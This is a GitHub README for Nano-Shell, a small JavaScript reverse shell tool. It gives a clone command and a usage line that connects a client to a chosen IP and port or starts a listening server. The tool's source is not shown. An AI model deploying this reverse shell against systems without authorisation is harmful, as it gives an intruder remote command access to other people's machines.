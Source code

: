 <h1 align="center">Welcome to Nano-Shell 👋</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-1.2.2-blue.svg?cacheSeconds=2592000" />
  
  <a href="https://github.com/ghostfighter50/Nano-Shell/graphs/commit-activity" target="_blank">
    <img alt="Maintenance" src="https://img.shields.io/badge/Maintained%3F-yes-green.svg" />
  </a>
  <a href="https://github.com/ghostfighter50/Nano-Shell/blob/master/LICENSE" target="_blank">
    <img alt="License: ISC" src="https://img.shields.io/github/license/ghostfighter50/Nano-Shell" />
  </a>
</p>

> Simple JS reverse shell

### 🏠 [Homepage](https://github.com/ghostfighter50/Nano-Shell#readme)

## Install

```sh
git clone https://github.com/ghostfighter50/Nano-Shell
```

## Usage

```sh
nano-shell -u <ip> -p <port> (client) | nano-shell -h <port> (server)
```

## Run tests

```sh
npm run test
```

## Author

👤 **Ghostfighter50**

* Github: [@ghostfighter50](https://github.com/ghostfighter50)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/ghostfighter50/Nano-Shell/issues). 
## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

Copyright © 2020 [Ghostfighter50](https://github.com/ghostfighter50).<br />
This project is [ISC](https://github.com/ghostfighter50/Nano-Shell/blob/master/LICENSE) licensed.

***


